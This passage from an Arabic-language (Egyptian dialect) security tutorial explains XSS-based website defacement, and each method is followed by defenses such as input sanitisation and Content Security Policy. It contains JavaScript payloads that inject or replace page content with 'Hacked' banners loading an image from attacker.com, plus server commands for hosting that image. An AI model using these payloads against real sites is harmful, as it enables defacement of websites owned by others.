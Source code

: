          ```
         وبيخلي الضحية يضغط عليه.
   - **الحماية**:
     - نظف مدخلات المستخدم عشان تمنع إضافة سكربتات.
     - استخدم Content Security Policy (CSP) عشان تمنع تنفيذ سكربتات غير موثوقة.

#### 2. **إضافة محتوى جديد (مثل صور أو رسايل)**
   - **إزاي بتحصل؟**
     - السكربت بيضيف عناصر جديدة للصفحة، زي صورة أو رسالة، عشان يغيّر شكلها.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var newDiv = document.createElement("div");
       newDiv.innerHTML = '<h1 style="color:red;">This Site is Hacked!</h1><img src="http://attacker.com/hacker.png">';
       document.body.appendChild(newDiv);
       ```
       - `document.createElement`: بيعمل عنصر HTML جديد (زي `<div>`).
       - `innerHTML`: بيضيف محتوى HTML (زي نص أو صورة).
       - `appendChild`: بيضيف العنصر للصفحة.
     - **إعداد سيرفر للمحتوى الخارجي**:
       - لو السكربت بيحمل صورة من سيرفر المهاجم، بيستخدم خادم ويب زي **Python HTTP Server**:
         ```bash
         python3 -m http.server 80
         ```
         - وبيحط ملف الصورة (زي `hacker.png`) في المجلد.
       - أو بيستخدم **Apache**:
         ```bash
         sudo apt install apache2
         sudo mv hacker.png /var/www/html/hacker.png
         sudo systemctl start apache2
         ```
     - **اختبار محلي**:
       - في الـ Console بتاع المتصفح:
         ```javascript
         var img = document.createElement("img");
         img.src = "https://example.com/test.png";
         document.body.appendChild(img);
         ```
         - الأمر ده بيضيف صورة للصفحة.
   - **إزاي بيحط السكربت؟**
     - Stored XSS في تعليق أو Reflected XSS في لينك.
   - **الحماية**:
     - استخدم CSP عشان تمنع تحميل محتوى (زي صور) من مصادر غير موثوقة.
     - نظف المدخلات عشان تمنع السكربتات.

#### 3. **إخفاء الصفحة الحقيقية واستبدالها بمحتوى جديد**
   - **إزاي بتحصل؟**
     - السكربت بيخفي محتوى الصفحة الأصلي (زي الـ body) وبيحط محتوى جديد مكانه، زي صفحة كاملة مكتوب فيها "Hacked".
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       document.body.innerHTML = '<div style="text-align:center; margin-top:100px;">' +
                                '<h1 style="color:red;">Hacked by Attacker!</h1>' +
                                '<p>This website is under our control!</p>' +
                                '<img src="http://attacker.com/hacker.png">' +
                                '</div>';
       ```
       - `innerHTML`: بيستبدل محتوى الـ body كله بمحتوى جديد.
     - **إعداد سيرفر للمحتوى الخارجي**:
       - زي قبل كده، Python أو Apache:
         ```bash